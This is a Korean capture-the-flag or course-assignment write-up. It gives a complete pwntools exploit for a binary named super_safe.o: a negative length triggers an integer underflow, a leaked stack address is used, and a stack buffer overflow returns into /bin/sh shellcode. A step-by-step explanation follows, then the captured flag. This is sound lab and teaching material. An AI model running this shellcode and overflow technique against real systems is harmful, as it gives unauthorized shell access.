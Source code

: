 # **완성 전체 코드**

```python
from pwn import *

r = process('./super_safe.o')
# r = remote('221.149.226.120', 31337)

r.recvuntil(b'\n')

length = -1;
r.sendline(str(length))

r.recvuntil(b'stack : ')
leak = r.recvuntil(b'\n')[:-1]
leak = int(leak, 16)

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
ex = shellcode + b'a'*(40-len(shellcode))
ex += b'b' * 8
ex += p32(leak)
r.send(ex)

r.recvuntil(b'b')

r.interactive()                              
```


# 설명

- `r.recvuntil(b'\n')` 코드로 `scanf(”%d”, &len)` 이전의 모든 printf된 것을 받아옴
- `r.sendline(str(length))` 에서  `scanf(”%d”, &len)` 에 해당하는 값을 넘겨주는데 `-1` 값을 입력값으로 줌
- -1값은 40보다 작은 수이므로 if문을 통과한다.
- input배열의 주소값을 얻어오는 printf문으로부터 주소값 직전의 출력값을 `r.recvuntil(b'stack : ')` 로 입력받고, `r.recvuntil(b'\n')[:-1]` 으로 마지막 값을 제외한 input주소값을 받아옴
- `read(0, input, len)` 값에서 len이 들어가는 부분은 `unsigned int` 와 같은 취급을 하는데, -1값을 넣었기 때문에 `integer bufferunderflow` 가 발생한다. 따라서 큰 정수 값으로 변화하므로 그 값만큼 자유롭게 입력을 받을 수 있게 되었다.
- 따라서 shellcode와 a로 이루어진 40바이트 크기의 문자열에 len과 SFP을 `stack buffer overflow` 로 덮을 수 있는 `b*8`을 추가하고 RET 에는 input배열의 주소값을 넣어준다.
- `r.send(ex)` 로 stack buffer overflow 를 발생시킨다.
- `printf("%s", input)` 의 결과값은 \n까지 출력이 되는데, 출력값을 정확하게 한정하기 위해 `b` 를 만날 때 까지의 결과만 받아온다.

```powershell
$ ./malicious
Congratulations!
Please enter your student ID, and I'll give you the flag.
$ 2018131321
Please copy and paste the following content into the report.
assignment1_flag{10783169968859744261902001500}
```

`flag = assignment1_flag{10783169968859744261902001500}`